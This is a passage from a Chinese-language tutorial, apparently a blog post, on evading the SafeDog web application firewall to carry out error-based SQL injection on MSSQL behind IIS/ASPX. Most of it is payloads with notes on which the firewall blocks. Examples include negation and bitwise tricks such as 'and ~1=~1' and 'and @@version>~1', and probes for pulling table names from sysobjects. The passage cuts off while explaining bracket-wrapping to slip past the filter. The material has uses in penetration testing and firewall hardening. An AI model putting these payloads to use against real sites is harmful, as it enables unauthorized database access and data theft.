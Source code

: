 BYPASS无非就是上一期MYSQL讲到的那些方法，灵活的运用即可，值得注意的是我们MSSQL搭配的一般都是 ASP/ASPX IIS 等等,其中我们可以利用容器的特性，和脚本语言的
特性绕过比如ASPX的hpp，iis处理%符号的机制，但是我这里就直接想办法在数据库方面来绕过。


### 0x01 简单的爆错bypass

测试环境 IIS+ASPX+MMSQL+IIS安全狗4.0.2229

简单的判断语句测试

```
and 不拦截

and 1 拦截

and -1 不拦截

and -1=-1 不拦截

and ~1 不拦截

and ~1=1 拦截

and ~1=~1 不拦截

```

差不多判断下 安全狗对负数不是很敏感，对数学运算后的布尔值也不是敏感。

and这块绕过了就可以爆出一些基本的信息了，比如用db_name()、user和@@version 都是可以直接用的，并不会被拦截，至少在我这个版本的狗是这样。

```
and @@version>~1

and (user|1)>-1

and (db_name()|1)>.1

```


我们试试直接通过mssql的一些特性来绕过，爆表名的语句

```
and ~1=(select top 1 name from sysobjects where xtype='u' and name !='info');--  拦截

and ~1=(select top 1 name from);--  不拦截

and ~1=(select top 1 name from 1);-- 拦截

and ~1=(select top 1 name from a);--  拦截

and ~1=(select top 1 name from !);--  不拦截

```

可见安全狗在这里拦截的是我们from后面跟字符型或者数字型，我们就只需要找到一个符号来包裹他就可以，在mssql中可以包裹表库名称的符号是[] 
